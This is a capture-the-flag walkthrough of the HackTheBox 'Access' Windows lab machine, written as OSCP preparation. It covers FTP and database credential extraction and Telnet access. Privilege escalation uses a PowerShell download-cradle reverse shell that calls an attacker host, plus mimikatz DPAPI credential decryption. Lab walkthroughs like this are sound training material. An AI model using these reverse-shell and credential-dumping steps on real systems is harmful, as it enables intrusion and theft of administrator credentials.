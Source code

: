 # 🧭 HTB: Access

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
**Skills**: FTP enumeration, PST extraction, Telnet login, credential dumping, DPAPI decryption

---

## 🔍 Recon

```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.98
nmap -sV -sC -p 21,23,80 -oA nmap/scripts 10.10.10.98
```

**Findings**:
- [FTP](FTP) (21): Anonymous login allowed
- [Telnet](TELNET) (23)
- [HTTP](HTTP.md) (80): Microsoft IIS 7.5

---

## 🌐 Exploring HTTP

```bash
gobuster -u http://10.10.10.98 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,txt -t 20
```

- No interesting directories found
- Image shown on homepage

---

## 📁 FTP File Extraction

```bash
ftp 10.10.10.98
# Login: anonymous
# Navigate and download files
cd Backups
bin
get backup.mdb

cd ../Engineer
get "Access Control.zip"
```

---

## 🧵 Analyzing backup.mdb (Microsoft Access DB)

```bash
apt install mdbtools
mdb-tables backup.mdb
mdb-export backup.mdb auth_user
```

**Findings**:
```txt
engineer : access4u@security
```

---

## 🔓 Crack PST Archive

```bash
7z x Access\ Control.zip  # Password: access4u@security
```

---

## 📬 Extract Outlook Password (readpst)

```bash
apt install readpst
readpst Access\ Control.pst
cat Access\ Control.mbox
```

**Email content**:
```txt
security : 4Cc3ssC0ntr0ller
```

---

## 💻 Shell as security via Telnet

```bash
telnet 10.10.10.98
# Login: security / 4Cc3ssC0ntr0ller

whoami
type C:\Users\security\Desktop\user.txt
```

---

## 🔎 Privilege Escalation Enumeration

```cmd
cmdkey /list
```

**Findings**:
- Cached credentials for ACCESS\Administrator
- Found `.lnk` file referencing `runas /savecred`

---

## 🔄 Method 1: PrivEsc via runas & PowerShell reverse shell

### 🛠️ Prep Nishang shell

```bash
git clone https://github.com/samratashok/nishang.git
mkdir ~/www
cp nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/
echo 'Invoke-PowerShellTcp -Reverse -IPAddress <tun0_ip> -Port 443' >> ~/www/Invoke-PowerShellTcp.ps1

# Serve it
cd ~/www
python3 -m http.server 80

# Listener
nc -lnvp 443
```

### 🏃 Execute from target

```powershell
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://<tun0_ip>/Invoke-PowerShellTcp.ps1')"
```

**Result**: Administrator shell ➜ `whoami`, then:
```powershell
type C:\users\administrator\desktop\root.txt
```

---

## 🔄 Method 2: PrivEsc via DPAPI Credential Decryption

### 📤 Extract & Encode

```cmd
certutil -encode 0792c32e... output
certutil -encode 51AB168B... output
```

### 📥 Decode on Kali

```bash
base64 -d masterkey.b64 > masterkey
base64 -d credentials.b64 > credentials
```

### 🧪 Decrypt with mimikatz on Windows

```powershell
dpapi::masterkey /in:masterkey /sid:S-1-5-21-... /password:4Cc3ssC0ntr0ller
dpapi::cred /in:credentials
```

**Extracted Administrator password**:
```
55Acc3ssS3cur1ty@megacorp
```

### 🔁 Telnet as Administrator

```bash
telnet 10.10.10.98
# Login: administrator / 55Acc3ssS3cur1ty@megacorp
cd desktop
type root.txt
```

---

## 🗂️ Beyond Root – Analyze LNK

### 🔎 On Windows

```powershell
$WScript = New-Object -ComObject WScript.Shell
$SC = Get-ChildItem *.lnk
$WScript.CreateShortcut($SC)
```

### 🔍 On Linux with pylnker

```bash
base64 -d lnk.b64 > lnk
python pylnker.py lnk
```